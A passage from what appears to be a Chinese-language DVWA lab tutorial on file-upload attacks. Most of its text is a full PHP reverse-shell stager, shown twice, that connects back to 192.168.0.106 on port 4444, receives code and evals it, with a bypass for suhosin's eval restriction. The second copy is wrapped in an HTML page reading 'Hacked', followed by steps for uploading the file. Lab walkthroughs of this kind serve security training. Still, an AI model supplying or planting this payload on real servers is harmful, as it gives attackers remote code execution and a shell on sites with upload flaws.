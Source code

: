 这样就生成好了。来看看里面有什么？
```php
/*<?php /**/ error_reporting(0); $ip = '192.168.0.106'; $port = 4444; if (($f = 'stream_socket_client') && is_callable($f)) { $s = $f("tcp://{$ip}:{$port}"); $s_type = 'stream'; } if (!$s && ($f = 'fsockopen') && is_callable($f)) { $s = $f($ip, $port); $s_type = 'stream'; } if (!$s && ($f = 'socket_create') && is_callable($f)) { $s = $f(AF_INET, SOCK_STREAM, SOL_TCP); $res = @socket_connect($s, $ip, $port); if (!$res) { die(); } $s_type = 'socket'; } if (!$s_type) { die('no socket funcs'); } if (!$s) { die('no socket'); } switch ($s_type) { case 'stream': $len = fread($s, 4); break; case 'socket': $len = socket_read($s, 4); break; } if (!$len) { die(); } $a = unpack("Nlen", $len); $len = $a['len']; $b = ''; while (strlen($b) < $len) { switch ($s_type) { case 'stream': $b .= fread($s, $len-strlen($b)); break; case 'socket': $b .= socket_read($s, $len-strlen($b)); break; } } $GLOBALS['msgsock'] = $s; $GLOBALS['msgsock_type'] = $s_type; if (extension_loaded('suhosin') && ini_get('suhosin.executor.disable_eval')) { $suhosin_bypass=create_function('', $b); $suhosin_bypass(); } else { eval($b); } die();
```

只有一行～！这一行就是嘿嘿。。。自己看啦

我们加一些html上去吧:

```php
/*<?php /**/ error_reporting(0); $ip = '192.168.0.106'; $port = 4444; if (($f = 'stream_socket_client') && is_callable($f)) { $s = $f("tcp://{$ip}:{$port}"); $s_type = 'stream'; } if (!$s && ($f = 'fsockopen') && is_callable($f)) { $s = $f($ip, $port); $s_type = 'stream'; } if (!$s && ($f = 'socket_create') && is_callable($f)) { $s = $f(AF_INET, SOCK_STREAM, SOL_TCP); $res = @socket_connect($s, $ip, $port); if (!$res) { die(); } $s_type = 'socket'; } if (!$s_type) { die('no socket funcs'); } if (!$s) { die('no socket'); } switch ($s_type) { case 'stream': $len = fread($s, 4); break; case 'socket': $len = socket_read($s, 4); break; } if (!$len) { die(); } $a = unpack("Nlen", $len); $len = $a['len']; $b = ''; while (strlen($b) < $len) { switch ($s_type) { case 'stream': $b .= fread($s, $len-strlen($b)); break; case 'socket': $b .= socket_read($s, $len-strlen($b)); break; } } $GLOBALS['msgsock'] = $s; $GLOBALS['msgsock_type'] = $s_type; if (extension_loaded('suhosin') && ini_get('suhosin.executor.disable_eval')) { $suhosin_bypass=create_function('', $b); $suhosin_bypass(); } else { eval($b); } die();?>
<html>
<head>
<meta charset="utf-8" />
</head>
<body>
<h1>Hacked</h1>
</body>
</html>

```
接下来回到DVWA，在左下角点击 **`upload`** 进入上传页面，然后点击 **`选择文件`** 再点击 **`upload`** 即可。

将这个文件上传进去。

如果这都不会我就不多说了，**你连上传个文件都不会还想进锏幕？**

![](/img/截图_2019-11-03_13-42-57.png)
